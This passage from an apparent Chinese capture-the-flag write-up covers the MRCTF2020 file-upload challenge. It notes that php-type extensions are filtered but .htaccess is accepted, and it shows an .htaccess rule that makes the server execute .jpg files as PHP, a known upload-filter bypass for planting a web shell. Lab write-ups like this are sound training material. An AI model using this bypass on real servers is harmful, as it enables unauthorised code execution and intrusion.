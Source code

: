 右键查看得到 flag

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208241622090.png)

## [MRCTF2020]你传你🐎呢(文件上传，.htaccess，cookie保证上传的文件夹不变)

文件上传

![](assets/202208241629766-1700744514803275.png)

测试发现过滤了 php phtml 等后缀, 但是 .htaccess 能够上传

```html
<IfModule mime_module>
AddType application/x-httpd-php .jpg
</IfModule>
```
